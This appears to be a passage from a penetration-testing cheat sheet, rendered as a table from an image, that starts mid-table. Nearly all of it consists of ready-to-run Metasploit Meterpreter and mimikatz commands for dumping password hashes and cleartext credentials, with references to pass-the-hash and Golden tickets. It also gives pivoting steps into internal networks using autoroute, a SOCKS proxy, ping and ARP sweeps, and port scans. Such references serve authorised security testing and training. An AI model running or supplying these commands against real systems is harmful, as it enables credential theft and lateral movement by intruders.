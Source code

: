 | pass-the-hash, pass-the-ticket  or build Golden tickets      |                                                              |
| [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz) |                                                              |
|                                                              |                                                              |
| load mimikatz, help mimikatz                                 |                                                              |
| From metasploit meterpreter  (must have System level access): |                                                              |
| meterpreter> load mimikatz                                   |                                                              |
| meterpreter> help mimikatz                                   |                                                              |
| meterpreter> msv                                             |                                                              |
| meterpreter> kerberos                                        |                                                              |
| mimikatz_command -f xyz::  to show list of modules           |                                                              |
| meterpreter>  mimikatz_command -f samdump::hashes            |                                                              |
| meterpreter>  mimikatz_command -f sekurlsa::searchPasswords  |                                                              |
|                                                              |                                                              |
| Pivoting                                                     |                                                              |
| https://pentest.blog/explore-hidden-networks-with-double-pivoting/ |                                                              |
| https://artkond.com/2017/03/23/pivoting-guide/               |                                                              |
|                                                              |                                                              |
| run arp_scanner -r  network/mask [192.168.100.0/24]          |                                                              |
| run  post/multi/gather/ping_sweep                            |                                                              |
|                                                              |                                                              |
| Routing from Metasploit  exploit                             |                                                              |
| use  post/multi/manage/autoroute                             |                                                              |
| set session 1                                                |                                                              |
| run                                                          |                                                              |
|                                                              |                                                              |
| use auxiliary/server/socks4a                                 |                                                              |
| set SRVHOST 175.12.80.21                                     | adress of VPN tunnel                                         |
| run                                                          |                                                              |
|                                                              |                                                              |
| run autoroute -h                                             |                                                              |
| run autoroute from meterpreter  session-s 10.32.121.0/24     |                                                              |
| meterpreter > run autoroute  -s 10.10.10.0/24                | Adds a route from Meterpreter sessions                       |
| run  post/multi/manage/autoroute                             |                                                              |
| run autoroute -p                                             | Check the current routing table                              |
|                                                              |                                                              |
| use  auxiliary/scanner/portscan/tcp                          | Scan the added network from Metasploit                       |
| route flush                                                  | Delete added route                                           |